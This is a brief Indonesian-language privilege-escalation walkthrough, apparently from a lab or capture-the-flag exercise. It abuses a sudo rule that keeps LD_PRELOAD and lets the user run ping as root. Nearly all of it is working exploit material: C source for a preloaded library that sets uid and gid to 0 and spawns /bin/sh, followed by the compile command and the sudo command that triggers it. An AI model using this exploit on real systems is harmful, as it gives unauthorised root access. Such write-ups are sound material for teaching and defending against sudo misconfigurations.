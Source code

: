 cek `sudo -l` dan dapat
```
...
    env_keep += LD_PRELOAD
...
    (root) /usr/bin/ping
```

buat file `smthng.c` dengan isi
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

gas compile dan run pake program
```
$ gcc -fPIC -shared -o smthng.so smthng.c -nostartfiles
$ sudo LD_PRELOAD=/home/user/smthng.so /usr/bin/ping
```

NOTE: error gpp, coba aja run.

